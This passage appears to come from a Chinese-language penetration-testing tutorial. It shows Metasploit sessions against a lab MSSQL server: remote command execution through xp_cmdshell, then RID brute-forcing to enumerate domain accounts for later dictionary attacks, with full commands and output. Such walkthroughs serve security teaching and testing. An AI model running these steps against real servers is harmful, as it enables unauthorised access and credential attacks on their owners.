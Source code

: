 ```
msf6 auxiliary(admin/mssql/mssql_exec) > set RHOSTS 10.0.19.29
RHOSTS => 10.0.19.29
msf6 auxiliary(admin/mssql/mssql_exec) > set CMD whoami
CMD => whoami
msf6 auxiliary(admin/mssql/mssql_exec) > run
[*] Running module against 10.0.19.29

[*] 10.0.19.29:1433 - SQL Query: EXEC master..xp_cmdshell 'whoami'



 output
 ------
 nt service\mssql$sqlexpress

[*] Auxiliary module execution completed

```

Enumerate all available system users

[Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration](https://www.rapid7.com/db/modules/auxiliary/admin/mssql/mssql_enum_domain_accounts/)

Microsoft SQL Server SUSER_SNAME Windows 域帐户枚举

此模块可用于使用 SUSER_SNAME 函数暴力破解与 SQL Server 域关联的 RID。这类似于 smb_lookupsid 模块，但通过 SQL Server 查询作为具有 PUBLIC 角色的任何用户（每个人）执行。可以枚举的信息包括 Windows 域用户、组和计算机帐户。枚举帐户随后可用于在线字典攻击。

```
msf6 auxiliary(admin/mssql/mssql_exec) > use auxiliary/admin/mssql/mssql_enum_domain_accounts
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > show options

Module options (auxiliary/admin/mssql/mssql_enum_domain_accounts):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   FuzzNum              10000            yes       Number of principal_ids to fuzz.
   PASSWORD                              no        The password for the specified username
   RHOSTS                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > set RHOSTS 10.0.19.29
RHOSTS => 10.0.19.29
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > run
[*] Running module against 10.0.19.29

[*] 10.0.19.29:1433 - Attempting to connect to the database server at 10.0.19.29:1433 as sa...
[+] 10.0.19.29:1433 - Connected.
[*] 10.0.19.29:1433 - SQL Server Name: EC2AMAZ-5861GL6
[*] 10.0.19.29:1433 - Domain Name: CONTOSO
[+] 10.0.19.29:1433 - Found the domain sid: 010500000000000515000000cf4b5eb619bca0ed968e21ef
[*] 10.0.19.29:1433 - Brute forcing 10000 RIDs through the SQL Server, be patient...
[*] 10.0.19.29:1433 -  - EC2AMAZ-5861GL6\Administrator
[*] 10.0.19.29:1433 -  - CONTOSO\Guest
[*] 10.0.19.29:1433 -  - CONTOSO\krbtgt
[*] 10.0.19.29:1433 -  - CONTOSO\DefaultAccount
[*] 10.0.19.29:1433 -  - CONTOSO\Domain Admins
[*] 10.0.19.29:1433 -  - CONTOSO\Domain Users
[*] 10.0.19.29:1433 -  - CONTOSO\Domain Guests
```